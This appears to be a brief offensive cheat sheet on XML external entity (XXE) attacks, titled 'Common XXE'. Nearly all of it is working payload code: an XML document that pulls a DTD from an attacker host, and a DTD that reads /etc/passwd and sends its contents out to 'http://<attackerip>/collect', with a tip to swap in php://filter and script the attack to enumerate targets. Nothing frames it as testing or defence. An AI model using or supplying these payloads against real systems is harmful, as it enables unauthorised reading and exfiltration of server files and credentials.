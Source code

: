# XXE

### Common XXE 

Sends file on target system to us:

```markup
<?xml version="1.0"?>
<!DOCTYPE xct[
    <!ELEMENT xct ANY>
    <!ENTITY % dtd SYSTEM "http://<attackerip>/payload.dtd">
%dtd;]>
<xct></xct>
```

```markup
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://<attackerip>/collect=%file'>">
%all
```

Instead of File we could also use `php://filter` here. You probably want to script this for enumerating a target.

